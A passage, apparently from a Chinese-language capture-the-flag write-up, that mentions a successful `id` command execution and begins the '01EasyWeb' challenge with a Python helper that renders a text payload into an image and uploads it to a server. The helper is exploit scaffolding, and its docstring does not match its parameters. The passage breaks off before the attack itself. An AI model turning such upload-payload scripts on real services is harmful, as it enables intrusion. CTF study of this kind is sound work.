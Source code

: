 

可见，`id`命令已经被成功执行：

![2](./img/README/2.png)

## 2025数字中国数安赛道

### 01EasyWeb

```python
"""文字转图片模块。

提供基础的文字转图片功能和自定义样式支持。
"""
import io
import json
from pathlib import Path
from typing import Optional, Tuple
from PIL import Image, ImageDraw, ImageFont
import os
import requests


def upload_image(payload, upload_url: str) -> bool:
    """上传图片到指定服务器。

    Args:
        image_path: 图片文件路径
        upload_url: 上传服务器URL

    Returns:
        bool: 是否上传成功
    """
    try:

        files = {
            'file': ('test.png', create_image_with_text(payload), 'image/png')
        }
        response = requests.post(upload_url, files=files)
        return json.loads(response.text)
    except Exception as e:
        print(f"图片上传出错：{e}")
        return False


```